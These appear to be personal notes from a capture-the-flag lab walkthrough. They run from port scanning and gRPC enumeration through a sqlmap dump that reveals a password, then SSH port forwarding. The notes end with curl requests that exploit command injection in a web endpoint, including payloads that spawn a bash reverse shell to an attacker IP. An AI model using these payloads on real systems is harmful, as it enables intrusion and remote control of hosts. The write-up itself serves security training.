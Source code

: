 PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.2p1: 
|       CVE-2020-15778  6.8     https://vulners.com/cve/CVE-2020-15778
|       C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3    6.8     https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3      *EXPLOIT*
|       10213DBE-F683-58BB-B6D3-353173626207    6.8     https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207      *EXPLOIT*
|       CVE-2020-12062  5.0     https://vulners.com/cve/CVE-2020-12062
|       CVE-2021-28041  4.6     https://vulners.com/cve/CVE-2021-28041
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2016-20012  4.3     https://vulners.com/cve/CVE-2016-20012
|_      CVE-2021-36368  2.6     https://vulners.com/cve/CVE-2021-36368
50051/tcp open  unknown

none o fwhich give us rce

![](20230618140630.png)

└─$ gobuster dir --url http://10.10.11.214:50051 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.214:50051
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/18 19:19:36 Starting gobuster in directory enumeration mode
===============================================================

Error: error on running gobuster: unable to connect to http://10.10.11.214:50051/: Get "http://10.10.11.214:50051/": net/http: HTTP/1.x transport connection broken: malformed HTTP status code "\x00\xfe\x03\x00\x00\x00\x01\x00\x00\x04\b\x00\x00\x00\x00\x00\x00?\x00\x00"


gobuster not working

https://www.youtube.com/watch?v=fGG7BMS-RZI

rustscan can be better than nmap

50051 is grpc

grpccui

can expose the methods

admin user exists

through sqlmap sau:HereIsYourPassWord1431

sqlmap -r req --batch --dump

ss -tn1

curl http://127.0.0.1:8000


we see that there is website running at 8000
we can port forward

ssh -L 9000:127.0.0.1:8000 sau@10.10.11.214

![](20230618200124.png)


we have an arbitary command execution vuln

```
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:9000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'
```

HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Mon, 19 Jun 2023 00:04:39 GMT
Server: Cheroot/8.6.0

Could not decrypt key   


curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"nc%2010.10.16.24%204444");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.24/9001 0>&1'");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A



curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A
");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'


%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

